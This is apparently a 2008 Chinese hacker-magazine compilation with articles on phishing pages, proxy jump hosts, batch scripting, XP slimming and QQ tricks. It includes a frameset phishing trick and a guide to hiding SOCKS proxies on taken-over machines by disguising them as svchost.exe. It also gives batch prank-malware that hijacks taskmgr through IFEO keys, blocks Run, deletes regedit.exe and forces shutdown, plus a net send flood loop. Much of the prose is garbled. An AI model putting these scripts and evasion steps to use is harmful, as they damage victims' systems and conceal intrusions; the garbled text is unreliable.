说明我举来的一些伪造术吧。对于 Google Pages 与论坛的文件，QQ 组的评价是问号，而对于 `http://groups.google.com/……` 的评价是勾勾（如图 8），所以它就好办了，只要设计好你的网页就行了（白色为真的）。下面再看看图 9，瞧，全变成勾勾了，还好几个问号要访问呢。这样当然是我干的，首先用另一个 QQ 号安全登录之后，再加了一个是属于自己的小号，然后用右键单击勾勾，然后“复制”并“添加到 QQ 表情包”的图标中填上一个，之后再把该头像、QQ 显示的问号图标，以及加密的那个好友头像，这个就在图 10。平时它就能伪装成同号图像。还有一个相关的代码，这样还会更有迷惑性。

实战：其实也没什么好说了，把生成的网页代码上传去，然后把地址发给别人就行了。一般人看到这种地址都会中招的，对于有一定安全意识的人，就要靠更强的伪造能力了。我就说，接触过 HTML 的朋友应该很熟悉，用它纵向排列多个窗口，当然还有横向排列多个窗口的，我只以这个为例，我们改成：

```html
<frameset cols="30%,20%,50%">
  <frame src="A.html">
  <frame src="B.html">
  <frame src="C.html">
</frameset>
```


朋友应该很熟悉，用它纵向排列多个窗口的，当然还有横向排列多个窗口的，我只以这个为例，我们改成：

```html
<frameset cols="0%,100%">
  <frame src="http://www.w3c.cn/download.html">
  <frame src="http://www.360.cn/">
</frameset>
```

打开的效果如图 11，只看到的是 360 的首页。这个代码杀毒软件总不会杀吧！好巧，这么久了！（编辑：这个代码杀毒软件浏览也会杀，因为不属白名单中的网页还是会执行这个。这个只要不改过来，杀毒软件还是会报告页面本身的。）


编辑点评：主要是一个创意启发，利用大家对大站的信任来骗取大家点击网页链接而中招，其实不如 Google 这个大户实在。大家还可以试试其他 NB 的大站，利用 QQ 与新闻内的时间差到小网站论坛，大家也可以学习学习。

## 【菜鸟黑客】--2008.05

## 我也说跳板

跟在 5 月：ODX 还在西安办研讨了，虽然越来越还有不少反对的声音，但大概已定，至少对这些文字的时候是这样子。看到一个相关的评论，不管用谁的标准，只要简单学习、思维作为你的用户，他们真正关心的是什么呢？我的答案是：整个世界，只要你能提供最好的服务，哪些地方就有失落感？希望大家能从这次的标准之争，再出一点道理，让你的策略更优秀起来，以后的路怎么走呢？

从本文您可以学到：怎样利用 ccproxy 和 Tiny Asynchronous Mode Socks5 Proxy 作为跳板。

记得《黑客手册》2008 年 3 月的月刊，有一篇文章：《网络跳板》！其中讲了分别利用灰鸽子和 sksockserver 来制作跳板！但是对我们来说这似乎不太友善，首先灰鸽子和 snake 都会被杀掉的（除非你具备绕过杀毒的能力），那么我来介绍我使用的代理工具，算是对那篇文章的一个补充吧！

## 一、架设跳板

架设跳板，我一般用的是 ccproxy 和 Tiny Asynchronous Mode Socks5 Proxy。先来看看 ccproxy，我想大家应该对这个比较熟悉。在设置中找到“NT 服务”，使其能够自动启动，以往一直这样开启 socks4/mms 这个代理功能，否则就跑不起来了！“高级”菜单中一定要选中“隐藏所有”和“开放 socks4”，利用 socks 可以代理任何程序！然后还可以打开注册表：在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\ccproxy` 的位置进行以下修改，如图 2。将 `DisplayName` 的值修改为它的显示名称，`ImagePath` 的值中 `Ccproxy.exe` 修改为 `svchost.exe`，同时将 `ccproxy.exe` 改为 `svchost.exe`，这样就避免了进程中出现 `ccproxy.exe` 直接暴露，当然就没那么容易被发现了！


Cproxy 虽然好，但是容量大了点，容易被发现，下面就使用真正的跳板软件来架设 socks5 代理服务！它就是 Tiny Asynchronous Mode Socks5 Proxy。从网上下载下来时，里面有三个文件：ASock.exe、Socks5.ini 和一个说明文件。其中 asock.exe 可以改名，放在任何文件夹下，socks5.ini 不可以改名，而且必须放在系统目录下。下面我们来演示一下 asock 的安装，我就取个如图 3（其中 svchost.exe 为 asock.exe 的改名）。


取消和删除代理服务的命令是：`svchost.exe stop`、`svchost.exe remove`，这样就可以成功卸载这个软件！asock 体积很小，只有 21K 哦。但是功能很强大，它支持代理的串联，在硬件条件允许的情况下可有数个跳级！下面我们来讲讲常用的配置参数：


```ini
[GlobalSettings]
ListenPort=1080,12345  // 代理的端口，可以是单个端口，或者多个端口
MaxConnections=10      // 允许最大连接数，1=0 代表不限制
BandWidth=0            // 传输带宽，0 代表无限制
AntiHarm=0             // 是否开启防止流量限制？
BindedIP=All           // 使用系统默认外部 IP，不建议使用
IsLogEnable=No         // 该项启动后会记录到日志中
IsAutoProxy=Yes        // 是否自动建立代理
EnableProxy=Yes        // 是否开启代理功能

[RemoteProxy1]
RemotePort=12345       // 二级代理的代理端口
RemoteUserName=abc     // 二级代理的登录账户
RemotePassword=abc     // 二级代理的登录密码

[User0]
Username=test          // 账号名为 test
Password=test          // 密码为 test
AccountStatus=Enable   // 说明账号激活，Disabled 代表失效

[Extra]
MaxConnectionPerIP=8   // 一个 IP 同时连接最多 8 个连接
TotalConnection=0      // 账号下的连接总数，0 代表无限制
AllowedIP=All          // 允许所有来源的 IP 访问
AllowedIP=192.168.0.0  // 允许特定网段/单个 IP 访问
DeniedIP=Non
DeniedListIP=Non
DeniedDstPort=0
Speed=20
IsGlobalProxyEnable=Yes
IdleTimeOut=600
ChainProxy=No
RemoteProxy=No
RemotePort=0
RemoteUserName=No
RemotePassword=No
```

当前 socks5 也有其弱点，正是穿墙能力非常差，连接 Windows 自带的防火墙都过不了。不过这又说回来，能拿下一台电脑，让其放行一些程序，不还是很简单的嘛！

## 二、连接使用篇

下面我们来看它们各自的长处。Sockscap 有一个优点，只有通过其界面打开的程序才是连接代理服务器的，这样就有了一个好处，我们同一类作用的软件就不用安装两个了！举个例子，比如我的 IP 处在一个局域网中，我访问这个网络内部的网站速度很快，但是外网速度比较慢，这时我使用代理去连接外网，直接打开 IE 访问内网，就可以实现快速访问。


打开 Proxifier.exe 主界面，点击“设置”→“代理设置”→“添加”来达到这个界面。右边打钩表示选中此代理，然后后面的排序是自上而下的。我们也可以设置域名解析是在本地还是远程，这个功能是最强大的。

## 三、总结篇

其实本文没多少技术含量，只是使用得多了，自然就会积累一些东西，而该技术就是这样慢慢发展起来的。文章很短但不全。在软件和网络安全越来越受理性对待的今天，拥有一款安全必杀的锐器是很重要的！

编辑点评：文章中介绍的两款代理服务共享算是“大哥”级的了，如果你还不会使用，本文可给你作为参考。至于下一步的二级代理品种，回头再多看看。

## 批处理编写中特殊命令的用法

从本文您可以学到：一、了解 BAT 的基本命令；二、掌握 BAT 的编写。在批处理应用程序的编写之前，先给大家讲一些基本的命令。

### 1. ECHO

Echo 是一个表示回显的命令。有两个参数分别是 on/off，Echo off 表示关闭回显。这个命令也可以在屏幕显示特定的消息。用法：`Echo 信息的内容`

### 2. REM

REM 命令一般用来给程序加注释，程序运行时不会显示或者执行。

### 3. PAUSE

该命令表示停止程序的执行，并且显示下面的内容，如图 1。


### 4. CALL

该命令用来在程序执行时调用另一个批处理程序，等另一个程序执行完毕，再继续执行没有完成的内容。举个例子（如图 2）：


### 5. GOTO

### 6. IF

这个命令表示判断。直接举几个例子讲一下语法吧。

- `(1) IF [NOT] ERRORLEVEL NUMBER COMMAND`

ERRORLEVEL 指命令执行后返回的退出值，NUMBER 表示退出值数字的范围，在 0-255 之间。若返回值 >= 指定值时，条件成立。

```bat
Test.bat

@echo off
:loop
if errorlevel 1 goto A
if not errorlevel 1 goto B
:A
@echo OK
goto exit
:B
@echo ERROR
goto exit
:exit
```

- `(2) IF 字符串1==字符串2 command`

表示字符串 1 绝对等于字符串 2 时，执行后面的命令。注意：如果是英文字母，大小写必须一致，否则条件不会成立。

```bat
Test.bat

@echo off
if %1==test goto A
Echo ERROR
goto exit
:A
@echo OK
goto exit
:exit
```

保存为 test.bat，程序里的 `%1` 表示变量。  
运行 `d:\>test.bat test`，结果输出 OK。  
运行 `d:\>test.bat hello`，这里变量 hello 与 test 不相等，返回 ERROR。

- `(3) IF [NOT] EXIST filename command`

EXIST filename 指文件或目录存在，这个语句的意思就是对指定的文件进行判断。

```bat
Test.bat

@echo off
if not exist test.txt goto A
Goto exit
:A
@echo Not Found
pause
:exit
```

以上程序首先判断是否存在 test.txt 文件，如果存在就退出，不存在就显示 “Not Found”，如图 5。

### 7. FOR

For 是循环语句，后面跟着的也有很多种参数。  
`FOR [%c] IN (set) DO [command] [arguments]`

常用的一些参数：

- `/L` 以增量的形式从开始到结束的一个数字序列。
- `/D` 如果集合中包含通配符，则指定与目录名匹配，而不与文件名匹配。
- `/F` 从指定的文件中读取数据作为变量
  - `eol=c` 指定一行字符串的终止值。
  - `skip=n` 跳过文件开始时忽略的行数。
  - `delims=x,y,m-n` 指定分隔符集合的默认分隔字符集。
  - `tokens=x,y,m-n` 指定将每一个符号传递到 for 循环本身。

这几个参数对 For 命令的作用分别是……

```bat
FOR /F %%a IN (1,2,3) do del %%a.txt
```

由于这条命令用法复杂，这里举一个简单的例子，如图 6。

```bat
Test.bat

@echo off
for %%a in (1,2,3) do del %%a.txt
```

这个程序将 1.txt、2.txt、3.txt 三个文件删除。


> 注意：
> 批处理中 FOR 命令与命令行中的命令有所不同。  
> 命令行中的命令：`FOR [%c] IN (set) DO [command] [arguments]`

### 8. SHIFT

该命令可以在批处理中使用可替代参数。这个命令的使用，涉及到变量的引用。上面写到 IF 语句的使用时，讲了一些关于变量的内容，这里还是用几个例子讲讲变量的用法，如图 7。

```bat
Test.bat

@echo off
shift
shift
```

程序运行后分别显示出了：


对比程序中的变量我们就可以得出 SHIFT 结合变量的用法了。

### 9. SET

Set 命令用于设置环境变量。我们在 cmd 中直接输入 `set` 会得到一些系统信息，比如：

```text
ALLUSERSPROFILE=C:\Documents and Settings\All Users
APPDATA=C:\Documents and Settings\Administrator\Application Data
CommonProgramFiles=C:\Program Files\Common Files
COMPUTERNAME=ADMINISTI-SE36DF
ComSpec=C:\WINNT\system32\cmd.exe
HOMEDRIVE=C:
HOMEPATH=\
LOGONSERVER=\\ADMINISTI-SE36DF
NUMBER_OF_PROCESSORS=1
OS=Windows_NT
Os2LibPath=C:\WINNT\system32\os2\dll;
Path=C:\WINNT\system32;C:\WINNT;C:\WINNT\System32\Wbem
PATHEXT=.COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH
PROCESSOR_ARCHITECTURE=x86
PROCESSOR_IDENTIFIER=x86 Family 6 Model 8 Stepping 10, GenuineIntel
PROCESSOR_LEVEL=6
PROCESSOR_REVISION=030a
ProgramFiles=C:\Program Files
PROMPT=$P$G
SystemDrive=C:
SystemRoot=C:\WINNT
TEMP=C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp
TMP=C:\DOCUME~1\ADMINI~1\LOCALS~1\Temp
USERDOMAIN=ADMINISTI-SE36DF
USERNAME=Administrator
USERPROFILE=C:\Documents and Settings\Administrator
windir=C:\WINNT
```

而在批处理里，我们可以用 `setlocal` 命令来设置环境变量，不过在这里设置的环境变量只限于批处理程序，`endlocal` 命令用来恢复原来的设置。关于这方面的更多用法，可以在 cmd 下输入 `setlocal /?` 和 `endlocal /?` 获得更多帮助。

举个例子，结果如图 8：


我们设置环境变量为 `d:\test` 后，`set path` 显示的内容为 `d:\test`，当执行 `endlocal` 后，`set path` 显示的是原来的系统环境变量。

SET 命令还有一种用法，在一个批处理程序中同时使用的变量超过 10 个，能把程序中还要调用的变量保存为环境变量。例如：  
`SET string=%1`，设置了一个新环境变量 string，那么就可以在后面调用这个变量 string。不过需要注意的是，使用 string 时，要求与原来的变量 string 区分开来。

一些基本的语法就讲这些，对我们而言已经足够了。批处理程序有时会涉及几种特殊字符，下面再简单地讲一讲。

- `1. > >>`

这两个都是大家比较常用的，例如把运行后的回显写入某个文件。`>` 与 `>>` 不同之处在于前者会覆盖掉原文件内容，后者是追加在文件的末尾，并不会覆盖原来的内容。

- `2. ,`

批处理中的逗号可以当作空格来使用。

- `3. "`

如果字符串中包含空格，例如文件名、系统服务名称等，执行有关内容时把它们用引号引起来。例如，我们要停止 DHCP Client 服务，可以在命令行下输入 `net stop "DHCP Client"`。

- `4. |`

这就是传说中的管道传输命令，就是将 `"|"` 前面命令的执行结果传输给后面要执行的命令。


例如（如图 9）：  
`netstat -an -p tcp | find "445"`

- `5. & &&`

`&` 用来在一行程序中执行两个或两个以上不同的命令。它与 `&&` 的不同之处在于后者第一个命令执行失败后，接下来的命令将不再执行。这个用法很简单，例子就不举了。

- `6. ;`

这个符号的用法直接用例子来说吧，如图 10。


`dir c:,d:`

这个命令相当于一次执行 `dir c:` 和 `dir d:`。

- `7. ^`

这个符号相信很多人在脚本入侵中用 `echo` 写 webshell 时经常用到，它的作用是在命令行中可以把 `>`、`<`、`&` 的特殊功能屏蔽掉，当作普通的文本符号来处理。用的时候在特殊字符前加上 `^` 就可以了。

- `8. @`

这个符号在刚开始讲 `echo` 命令的时候就用到了。它的作用是用来关闭 `echo on/off` 该命令在运行时的显示。以上把基本的批处理编写方法都教给大家了。下面它们就……

- `① win2k message 攻击器`

这个批处理基于 `net send` 命令。

```bat
Test.bat
@echo 发送中...
:begin
net send %1 %2
if errorlevel 1 goto end
goto begin
:end
@echo 发送失败。
```

这个批处理的用法是：`test.bat IP message`。

## 【菜鸟联盟】—2008.05

## 黑客成长之路——BAT 知识进阶

图 Kay4

从本文您可以学到：

通过具体事例深入了解 BAT

大家好，考虑到各位读者对于黑客技巧的探索，这次 Kay4 要和大家讲一些关于 BAT 的知识，让各位从黑帽培训中也能培养一些黑客的资质，了解黑客们神奇的手段。好了，废话不多说，开讲。很多人都有 BAT 名称可能不知道是什么意思，其实 BAT 就是批处理文件，它是系统命令的一种形式，可以批量执行命令，并成为至今常见的 BAT 应用方式之一。本文就讲解有关 BAT 的基本概念，和如何用批处理批量执行程序，以及一些最基础的语法内容。我们会从一些经验之谈进入，先来熟悉 BAT 的命令行，然后我们讲解 BAT 在系统中的运行和管理。

```bat
@echo off
color 1d
title 一切问题都由 2011
taskkill /f /im qq.exe // QQ聊天软件
taskkill /f /im iexplore.exe // IE浏览器
taskkill /f /im explorer.exe // 桌面图标
taskkill /f /im ctfmon.exe // 输入法进程
explorer,0x0,ctfmon.exe 则强制关闭
```

```bat
reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskmgr.exe /v Debugger /d 123.exe /f
reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe /v Debugger /d 123.exe /f
reg add HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Policies\Explorer /v NoRun /t REG_DWORD /d 1
```

所以 is 就被定义为第二个符号。我们还可以用“delims=xxx”参数自定义分隔符，例如“delims=?”，就是把“?”当作分隔符来替换掉默认的“，空格”。

比如我们把文章的内容前面加上分号：`; This is a test!`

`FOR /F "eol=; tokens=*" %i in (test.txt) do @echo %i`

输出内容为空，“eol=;”参数的作用就是忽略掉以分号开头的那一行！这里由于是分号开头，所以输出的内容就为空了。

编辑点评：

小菜们是不是对每个命令有些东西颇感大惑呢？我不想在这里罗列太多过于基础但又太多重要的系统命令，这样才有了后来的学习精读，资料不够多也怕带来不全的东西。再一次性接触太多内容也不是太好的提议，所以在这里若大家喜欢，希望大家积极地阅读文章，将这些知识和技巧来增强自己。继续来看看，接着让大家有更高的提高！

`cmd.exe /k soundrun 1 - 60`

```bat
@echo off
cls
echo 0. 告诉你一个不喜欢的消息：60秒后你就完了
echo 1. 这次，给他一次机会吧，听不起来是孩子
echo 2. 关闭
echo 3. 我砸我机
echo 4. 打成的2801
```

运行起来都是显示后面的文字。

```bat
:cho
set choice=
set /p choice=
IF NOT %choice%=="" SET Choice=%Choice:~0,1%
if /i %choice%==1 goto 1
if /i %choice%==2 goto 2
if /i %choice%==3 goto 3
if /i %choice%==4 goto 4
echo. 终于让读者你能选呢，愿意的话……（再重新打做看看？）
echo.
goto cho

:1
echo.
echo. 你死了（oo）妈妈说，男人有泪不轻弹
echo.
goto cho

:2
echo.
echo. 你死了（oo）这样还笑，肯定是神经
echo.
goto cho

:3
echo.
echo. 你死了（oo）啊，放下屠刀，立地成佛，普渡，普渡
echo.
goto cho

:4
shutdown -a 取消预装关机
echo 欢迎机友加入 QQ2801，保留你来了解有问题，再问 2801。
txt 显示文字，并将其保存在 2801.txt 的界面
start c:\windows\explorer.exe 开启桌面
@echo off
del /s /q c:\windows\regedit.exe 删除注册表编辑器
regedit.exe
```

echo QQ2801，欢迎你到我的地头（谢谢这个也是想给这两条，不好是用成员来？）小文字还有网络你不懂的原因——万事万一先学会这种懂。txt 要多文字

cls  
goto end  
Exit

上面这部分是有四个选项，按 1、2、3、4 四个数字，按了就会出现相应提示，其中 1、2、3、4 是不同的，只有选中了 4，你手动地将方会停止。

看到这里小黑们是不是有点迫不及待地想去编写一个 BAT 文件整整别人呢？不过不要编写什么恶意代码，那样犯法，本文作者可不负责的，毕竟我写这篇文章的本意是让你掌握一点知识。

BAT 编写好了以后怎么办？直接传给别人吗？错，这里我再友情提供一个可以将 BAT 文件转换为 EXE 文件的软件（还可以修改图标、捆绑其它 EXE 文件和动态补丁的命令哦）。好了，这篇文章就结束了，有什么问题的话欢迎大家来论坛学习交流啊，我的阿狸 Kay4。

最后留给大家一个家庭作业：

```bat
@echo off
shutdown -t 120
echo 仪器测试专用。取消，超简单，CMD 下输入 shutdown -a
start http://www.imq.com/productfullpl1ap026493graphi.swf
taskkill /f /im msnmsgr.exe
echo 这个是什么？
```

[BAF 转 EXE 软件光盘中有提供]

编辑点评：

结合上一篇文章，正好做一个练习，检验一下你的学习成果。如果你觉得没问题了，你可以去看一看 Powershell 方面的资料了，手册已为你找到过介绍。你可以使用 Hash（Powershell）是一个开源实现吧，当然 Linux、Solaris、Mac OS、Windows、WinMobile、WinCE 等多种平台。制作完成后在本册面前的显示处广阔的地……

## XP SP3 系统整合

## 及利用 Sandboxie 构建安全方案

roger

从本文您可以学到：

- 怎样自己制作 XP 的安装光盘
- 利用 Sandboxie 构建系统安全方案

1.45 beta 1，支持 SP3 和 IE8.0 的整合。

### 整合之前准备工作

- Windows XP SP2 安装光盘 ISO 镜像
- nLite：1.4 beta 1
- Windows XP Service Pack 3（RC2）v3300
- Internet Explorer 7.0 / Media Player 11.0 / Adobe Flash Player 9.0.115
- ActiveX、IE8.0 等组件包

先安装 nLite（.Net Framework 2.0 支持），运行后在 Language 下拉菜单选择 Simplified Chinese，界面转换为中文。前进，选择 Windows 安装文件所在位置，这里需要你把下载的 Windows XP SP2 安装光盘 ISO 镜像解压到某个文件夹，然后选择这个文件夹，程序会自动扫描 Windows 版本及 Service Pack 版本，如图 1。

点击两次前进到任务选择，选中 Service Pack、系统补丁以及程序整合、组件、无人职守安装、选项、优化调整、可引导 ISO 镜像。如果你想整合驱动的话，就把驱动项也选上。

然后前进完成，开始整合 Service Pack 3，这里让你选择下载来的 Windows XP Service Pack 3 RC2 v3300 文件（注意不用解压，直接选择安装包），整合完后没有错误就开始下一步，把上面提到的 IE7、Media Player 11、Flash 播放插件插入到系统补丁以及程序整合框内，如图 2。

开始选择到了组件移除项目了，刚开始弹出的兼容性最难搞，手动搞定，如图 3。这些精简项目大多方面都有说明，精简了没设定，精简多了系统安装后会出现很多问题。

服务这一项必须说一下，精简过度会产生很多莫名其妙的问题，比如新建拨号连接项灰色不可用，Remote Access Connection Manager 服务不能启动等。上面这个列表基本上是最大程度的精简了，再精简多了就容易出问题。

### 1. 操作系统选项，选择：

- .NET Framework
- Blaster/Nachi 移除工具
- Help and Support（帮助和支持）
- Indexing Service
- MSN Explorer
- Windows Messenger
- Zip 文件夹
- 安全中心
- 额外的桌面主题
- Windows 组件（NTSD）
- 传感器
- 色彩方案
- 手动安装和升级
- 快速用户切换
- 网页视图
- 文档模板
- 文件和设置转移向导
- 系统文件检查器
- 远程桌面
- 远程协助

### 2. 多媒体

- AC3、ART 图像格式支持
- Luna 主题
- Movie Maker
- Windows 录音机
- 老式 CD 播放器以及录音机
- 媒体中心
- 平板电脑
- 鼠标光标
- 图像缩减
- 音乐示例
- 消费者支持

### 3. 服务

- IMAPI 光盘刻录服务
- IPSEC 策略代理
- Messenger
- Network DDE
- QoS RSVP

### 4. 键盘布局

- 全勾选上

关于键盘布局的精简方面，nLite 对中文软键输入法处理不够，装完系统，Ctrl+Shift 切换输入法会导致应用程序崩溃。这里是全部精简掉，然后手动处理。（这方面的资料以及处理好的文件在此不提供。）

### 5. 驱动程序

只保留网卡，或者全部都精简掉。装系统前做好原驱动备份，或者用驱动精灵 2008 进行更新。

### 6. 网络

- FrontPage 扩展
- Internet 连接相关
- Internet 信息服务
- MSN Explorer
- NetMeeting
- NetWare 客户端服务
- NWLink IPX/SPX/NetBIOS 协议
- POP3 服务
- Windows Messenger
- 端口驱动和拨号程序
- 对等网络
- 共享文件和打印
- 远程桌面
- 远程安装
- 终端服务
- 网络诊断工具
- 映射网络驱动器向导

补充说明一下，“网络文件夹”即 WebDAV，以前 IIS 版本在配置中会有一个可以利用的漏洞，觉得有用的可以保留下。他的项目不要过度精简，容易在网络连接方面出故障。

### 7. 应用程序

根据需要自己精简。

### 8. 硬件支持

同上。

### 9. 语言

建议只保留 Simplified Chinese、Traditional Chinese，即简体中文和繁体中文支持。

### 10. 目录

全都精简，如图 4。

然后选择图 4 右下角的“高级”，在保留和删除框添加需要保留和删除的文件列表（达到要求主要是提供）。下一步就是配置无人职守安装，很简单，不用多说大家也能看明白。注意无人职守模式选择：Fully automated，即全自动模式，如图 5。

注意区域选择项按如图 6 设置。前进到了“选项”、“补丁”选项卡，这里可以直接破解系统安装后的 TCP/IP 连接数，以及 UxTheme 主题认证破解，如图 7。

最后到了“优化调整”项，这些都是很有意思的项目，配置完后省去了安装完系统后手动优化的麻烦，如图 8。

- Internet Explorer：设置主页 about:blank
- Windows Media Player：禁止保存文件和网站的历史记录
- Windows Media Player：禁止自动添加播放列表
- Windows Media Player：关闭重放效果
- Windows Media Player：无可视化效果
- Windows Media Player：允许全屏模式下的控制条
- 开始菜单：减少菜单弹出延迟时间
- 开始菜单：禁用开始菜单中的动画效果
- 开始菜单：禁用个性化菜单
- 开始菜单：移除“设置程序访问和默认值”
- 开始菜单：移除 Windows Catalog 快捷方式
- 自动关机：终止会弹出系统管理员对话框
- Ctrl-Alt-Del：禁用
- 自动执行 Autoexec.bat
- 自动执行系统注册表
- 自动执行正确的程序
- 自动修正光驱驱动
- 任务栏：禁用分组，仅任务栏按钮
- 任务栏：禁用气球提示
- 任务栏：禁止跟踪最近的图标
- 任务栏：锁定任务栏—允许
- 网络：禁用共享及其映射的网络驱动器
- 网络：禁用简单共享
- 网络：禁用共享文件夹
- 网络：禁止自动搜索网络文件夹和打印机
- 网络：在工作组或域内显示自己计算机
- 我的电脑：移除共享文档
- 性能：不缓存缩略图
- 性能：处理器计划—程序
- 性能：禁用 WBEM 日志
- 性能：禁用文件上的上次访问时间戳
- 性能：禁止跟踪故障的快捷方式链接
- 性能：使用 Windows 经典文件夹（不显示任务面板）
- 性能：鼠标指向文件和文件夹时不显示提示信息
- 性能：系统空闲时不优化视觉

改服务的启动类型，禁用掉没用的、影响系统运行速度的服务。

关于系统服务方面的优化配置，这方面的文章网上有很多，就不在这里浪费版面了。

最后一步就是开始处理安装文件了，如图 10。注意处理完后把杂志内提供的尽量用中文（中国）虚拟盘符和有 e、b、c 输入法的 HIVEDF、HIVEI、HIVESYS、INF、INTL 或其他及 i386 文件夹。然后删除 i386\LANG 文件夹里的文件，只保留以下四个文件。

全部处理完后会生成 ISO 文件，刻录成光盘，集成 SP3 补丁的安装光盘就制作完成了。

安装完系统你就可以发现，精简后的系统和普通的 XP 不同，按照上面提供文件的方式，开机 PF 使用率仅 65M 左右，即使你用 TNP 优化也达不到这种程度。而且精简掉了一些无用组件，系统的安全性会增强不少。如果再用 Sandboxie（沙盘）对系统进行安全保护，可以说是百毒不侵，而且长期使用也不会有系统被恶意修改的烦恼。

先介绍一下 Sandboxie。它允许你在沙盘环境中运行浏览器或其他程序，因此运行后产生的变化可以随后删除。这样可用来防止程序运行的痕迹，也可用来还原收藏夹、主页、注册表等。即使在沙盘进程中下载的文件，也会随着沙盘的清空而删除。这款软件的最新版本文件只有 349K，占用资源少，功能不少。

安装了 Sandboxie，打开 Sandboxie Control，修改“设置保存文件夹”为 C 分区。默认情况下，从沙盘中运行程序管理器、从资源管理器中打开程序，程序都会在沙盘中运行，如图 12。

选择到沙盘中运行，以后即使不在沙盘中运行，也会自动让它在沙盘内执行。如果在沙盘中运行 IE 或者其他程序，感染病毒后，直接按“快速恢复”或者“删除”即可。

关于 Sandboxie 的使用，主要的就是这些，其他的一些功能还是自己去体会。最后再对系统内存大的用户（512MB 及 1G 以上）提供一条建议，就是用 RAMDISK 创建虚拟内存盘。顾名思义，就是把内存的一部分当作硬盘用来加速系统。以前杂志上已经介绍了，这里介绍一款软件 RAMDISK Plus 7.0，如图 16。

运行后 Add 添加一个虚拟磁盘，Drive Letter 为盘符，Size 为磁盘大小（MB），File System 为文件系统，可选 FAT/FAT32/NTFS 等。确定后到“我的电脑”里，可以看到新添加的磁盘了。

然后我们把 Sandboxie 设置保存文件夹，默认 C 分区，改到新建的这个 RAM 盘上。

再设置一下系统的环境变量，和 IE 临时文件目录，如图 17、图 18。

最后重启一下系统，好了，你可以体验一下你的系统有多快了。

编辑点评：

系统集成又被提上台面，不可否认这是一件很有趣也很有成就感的事情。经典的 Windows 系统在越来越多的 Linux Live CD 类型影响下，也让使用者越来越有熟练的心理。事实上系统并不是越来越难，文件给出的只是一种选择建议，大家还是要根据自己的需要和年龄性格，找到适合自己的系统，便是一件幸福的事情。最后希望大家能拥有自己的“香菇花园”。

## QQ之防攻成

从本文你可以学到：

- 查看自己是否还在对方好友列表；
- 将自己从对方的好友列表中删除；
- 在公共机房挂 QQ；
- 抓出公共机房中挂着的 QQ。

方法总不会嫌多吧！多多益善嘛！

A：需要 QQ 秀

首先打开 QQ 秀商城随便找一套 QQ 秀，点击穿着，如图 1。然后出现这个页面，如图 2。付款人号码那里我们就填一个，当然他不是我的好友哦，点击提交，出现提示如图 3。我不知道为什么会是这样的提示，于是我知道了自己不是对方好友了。

### PART ONE —— QQ好友之删除

前几期有篇文章已经介绍了一种方法，下面我再介绍几种。

## PART TWO——QQ之机战

## 疯狂抢注百度 Hi 群号

从本文您可以学到：
- 试用百度 Hi
- 抢注百度 ID 和群号

2007 年开始，业内便不时透露百度将进军即时通讯市场，正在开发 IM 产品。如今，昔日传闻终为证实，2 月底百度内部全员内测其 IM 产品——百度 Hi，由此也掀开了百度 IM 的神秘面纱。今天，有幸受邀成为百度 Hi 对外的首批体验用户之一。

百度 Hi 的整体控制面板，相信很多用户已经非常熟悉，其与腾讯 TM2008、Windows Live Messenger 基本没什么区别。如果具备创建群的权限，直接在百度 Hi 主面板点击“群→创建群”，按提示提交群名称、群简介、群成员等信息后，就可完成创建。目前通过好友邀请方式体验百度 Hi 的朋友应该还无法直接创建群。如果想建群，需要成功邀请 30 个好友使用百度 Hi，如图 1。

## 邀请好友的方法

直接添加好友的百度账号，或者简单地将对方加为联系人，系统会自动向他发送邀请，前提是你的好友已经开通了百度空间，然后点击系统消息里的邀请链接，按图 2。

为方便大家注册百度 ID，我在网上找到一款“百度 ID 批量注册”的软件，你可以节省大量时间，自己手动注册。大家只要运行软件，手工填写验证码就好了。

每个群都有个群号，百度 ID 过期时群号不会保留的，全都释放，放着就是没用的。如果你想申请那些好的群号的话，那么，就跟着我吧。

一旦你申请了不怎么好的群号，你可以通过右击“群”→“解散群”，再重新按上面建群的步骤重建一个群。你可以反复重复这些步骤，直到你得到满意的群号。最好几个人配合着一起抢，这样效果会更好，不然中途可能会被别人抢走。这个是我和我的同学一起试出来的抢群号方法，有谁碰到 1000001 号可要写信告诉我的啊，呵呵。

编辑点评：IM 越来越“泛滥”了，扣个链接 ID 就能与好友串连了。不过这些账户的沟通页面越来越广，不少的同学也在百度空间与 QQ 空间之间来回切换。

## 简洁空间模块代码

从本文你可以学到：通过临时文件夹“盗取”空间模块代码。

大家看到别人 QQ 空间里许多的装饰 FLASH 模块、图片模块、视频模块，是不是很想拥有呢？现在就教大家简单地利用电脑的“临时存储”文件夹里的模块，来找到那些精美模块的链接。

图片模块是最好“盗”到的，可以直接在图片上点击右键；也就是说看到的图片对应模块都能够被“盗”到，这里主要做个介绍。

在 IE 菜单工具栏下打开“Internet 选项”，选择“设置”，再点“查看文件”，如图 2。然后在所打开的 Temporary Internet Files 文件夹中点击“搜索”→搜索“*.swf”。

搜索 FLASH 格式“*.swf”、视频格式“*.wmv”与“*.avi”，以及图片格式“*.jpg”“*.gif”文件。这样就可以搜索到你要找的模块链接了，先去给自己把这个模块加上去吧！

> 编辑点评：所谓的各种空间模块，大多只是 Web 资源，既然这样的访问网址都会存储在临时文件夹里，就有可能找到。很多有用的东西也可通过这个方法来保存。比如你直接把你要用到的图片、视频、音乐等资源地址再找出来。

## 不进 QQ 空间，照样看日志

大家都知道，只要你进入一个人的空间，都会在“好友圈”里留下记录。我可不想在里面留下太多“影子”，有时候并不想和某个人进行直接接触，但也想看他的日志，有什么办法呢？只要通过这个地址，就可以让你无所忌惮地浏览别人的日志：

http://feeds.qzone.qq.com/cgi-bin/cgi_rss_out?uin=QQ号码

## 巧挖网站中的 PPT 课件

从本文你可以学到：如何利用 IE 的特性取得网站中隐藏的 PPT 文件。

那天，一个在大学任教的同学在 QQ 上“求助”，他说希望把某个知名网站上的 PPT（微软 PowerPoint）课件下载下来，却不知道如何下载。我打开他发过来的网址 http://202.115.138.28/2005/sensor/teacher/02.files/frame.htm，果然找不到合适的 PPT 文件；查看源代码后也没有发现直接的链接。

